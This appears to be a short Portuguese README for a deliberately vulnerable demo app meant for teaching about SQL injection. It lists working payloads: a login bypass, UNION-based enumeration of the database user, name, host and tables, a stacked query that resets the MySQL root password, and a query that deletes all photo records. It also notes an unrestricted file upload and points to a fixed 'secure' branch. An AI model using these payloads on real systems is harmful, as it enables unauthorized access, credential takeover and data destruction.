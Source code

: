 #### **Injection no Login**

`' or 1 = 1;`

#### **Injection na Visualização da Foto**

* **Verificando Núumero de Colunas da Consulta**

`UNION ALL SELECT 1,2`

`UNION ALL SELECT 1,2,3,4 ORDER BY RAND()`

* **Descoberto número de colunas, pegando usuário da conexão com banco**

`UNION ALL SELECT 1,user(),3,4 ORDER BY RAND()`

* **Pegando o nome do banco**

`UNION ALL SELECT 1,database(),3,4 ORDER BY RAND()`

* **pegando o nome do host**

`UNION ALL SELECT 1,SUBSTRING_INDEX(USER(), '@', -1),3,4 ORDER BY RAND()`

* **Caso seja usuário root**

`UPDATE mysql.user SET authentication_string=PASSWORD('123') WHERE user='root';FLUSH PRIVILEGES;`

`mysql -u root -p`

* **Ver as tabelas na busca**

`%' UNION SELECT 1,2,3,table_name FROM information_schema.tables where table_schema='injection' ORDER BY RAND(); #`

* **Removendo registros da tabela photo**

`;delete from photo;`

#### Injection arquivo no servidor, através do upload de foto

O upload de foto está aceitando qualquer tipo de arquivo

#### Branch Secure

`git checkout secure`